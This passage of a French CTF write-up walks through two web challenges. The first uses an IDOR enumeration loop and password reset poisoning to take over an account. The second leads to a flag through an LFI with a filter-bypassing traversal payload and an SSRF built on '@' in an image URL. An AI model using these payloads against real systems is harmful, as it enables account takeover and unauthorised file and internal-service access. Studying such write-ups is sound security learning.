flask-unsign --decode --cookie eyJub25jZSI6IjYzYzkyNmQwZTM3MzNhMDllOWNhMTM0YjJhZjg1NjhiIn0.ZefV6w.Jgbf49cZlIxFytdhbjyZH97HoQY
{'nonce': '63c926d0e3733a09e9ca134b2af8568b'}
```

Le fuzzing était possible mais semblait compromis à cause d'un un rate limiting. En revanche, le code source fait référence à un **Swagger**:

```html
<!-- 
Note for admins : 
For the sake of security, remove the bloody swagger UI from the production build.
-->
```

On se doute qu'il existe une **API** Swagger, souvent reliée à `/api/v1/swagger.json`, ce qui est le cas ici:



L'API Restful comporte 4 endpoints:

- `/api/v1/register/` qui est désactivé

- `/api/v1/login/`, nécessite un compte

- `/api/v1/reset-password/` que l'on a déjà entrevu, mais nécessite un compte

- `/api/v1/user/{user_id}` que l'on peut exploiter

Énumérons ainsi les utilisateurs disponibles grâce à l'**IDOR** fournie par ce dernier endpoint:

```bash
for i in {1..100}; do echo $(curl -s -X 'GET'   'http://172.17.0.2:8080/api/v1/user/'$i   -H 'accept: application/json') ; done | grep true
{"admin":true,"id":9,"username":"isabel_castillo57"}
{"admin":true,"id":24,"username":"william_glover68"}
{"admin":true,"id":31,"username":"kimberly_jennings64"}
```

#### Password reset poisoning

Que faire maintenant? En lisant [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Account%20Takeover#password-reset-feature) sur les faiblesse des **password reset** on note:

- différence entre la gestion de l'identifiant ou le mail 
- code "maison de cette feature et 
- jeton prédictible
- **empoisonnement** du nom de domaine du lien

Il s'agissait de cette dernière technique. Pour la mettre en place plusieurs outils existent, l'important est de disposer d'un serveur:

- `burp collaborator (Pro..)`
- `requestbin`
- `ngrok`

Essayons avec la première utilisatrice:



Ni une, ni deux on reçoit ce token:



On s'empresse de suivre le lien:



Et c'est gagné!



### Free Chat

Pour faire simple et concis, voici le [writeup de l'auteur](https://github.com/GCC-ENSIBS/GCC-CTF-2024/tree/main/Web/free_chat/write-up)

#### LFI

En se créeant un compte pour l'application, nous avons accès à une application de chat



Le paramètre  `name` de visualisation de notre photo de profil `http://worker02.gcc-ctf.com:12033/pfp?name=default.png` est vulnérable à une **File Inclusion** (la suite de caractères `../` étant filtrée):



#### Wildcard DNS & SSRF

Il y a un manque de validation quand on "upload une image".



- L'application vérifie que l'url d'upload commence par `https://pbs.twimg.com` mais `http://pbs.twimg.com@7.tcp.eu.ngrok.io:19922` est accepté et redirige vers notre domaine. Voir plus de détails sur https://nip.io .

- Si l'on décode en base64 l'url-avatar `http://pbs.twimg.com@localhost:1337`, on obtient le code source de la page:

```html
<!DOCTYPE html>
<html>
<head>
    <title>FreeChat - Dev Panel</title>
    <script src="/static/js/hint.js"></script>
</head>
<body>
    <div style="text-align: center;">
        <h1>FreeChat - Dev Panel</h1>
        <h3>Welcome dev, to access the panel, please enter your access token</h3>
        <form action="http://devpanel:8000/" action="GET">
            <input type="text" name="token" placeholder="Access Token">
            <input type="submit" value="Submit">
        </form>
        <div>
            <h5 style="display: inline-block;">Forgot your token ? </h5>
            <button onclick="hint()" style="display: inline-block;">Hint</button>
        </div>
        <div id="hint"></div>
    </div>

</body>
</html>
```

En regardant le `hint` avec `http://pbs.twimg.com@localhost:1337/static/js/hint.js`, on confirme qu'il faut là aussi un token:

```js
function hint(){
    document.getElementById("hint").innerHTML = "<h5>Hint: Don't be stupid admin, if you've lost the <b>token</b> you can still <b>locate</b> it. Just think!</h5>"
}
```

#### Locate: /var/cache/locate/locatedb

Ici vient une partie plus vicieuse, ne pouvant pas énumérer les dossiers, on doit utiliser en supposant qu'elle existe `locatedb`, stockant le PATH de l'application.

On se rend donc ici `http://worker02.gcc-ctf.com:12033/pfp?name=....//....//....//....//....//....//var/cache/locate/locatedb`, ce qui télécharge le fichier puis on recherche:

```bash
locate -d ./locatedb 'freechat'
/freechat
/freechat/app.py
...
/home/freechat
/home/freechat/.bash_logout
/home/freechat/.bashrc
/home/freechat/.for_d3vs_0nly
/home/freechat/.for_d3vs_0nly/access_token.txt
/home/freechat/.profile
```

Le fichier `http://worker05.gcc-ctf.com:12033/pfp?name=....//....//....//....//....//....//home/freechat/.for_d3vs_0nly/access_token.txt` contient le sésame.

On peut donc réutiliser la SSRF avec le token:

`http://pbs.twimg.com@devpanel:8000/?token=af33aa8342e212020e0ba08bca94e3559f82d3efb0eb7ec6e7eafbc11710f05b`

```html
<!DOCTYPE html>
<html>
<head>
    <title>DevPanel</title>
</head>
<body>
    <div style="text-align: center;">
        <h1>DevPanel</h1>

            <h5>Hello dev, your flag is : GCC{L0c4t3_tr1ck+SsRf_1s_FuN}</h5>
            <p>Made with ❤️ by Mika</p>

    </div>
</body>
</html>
```

Merci pour votre lecture!
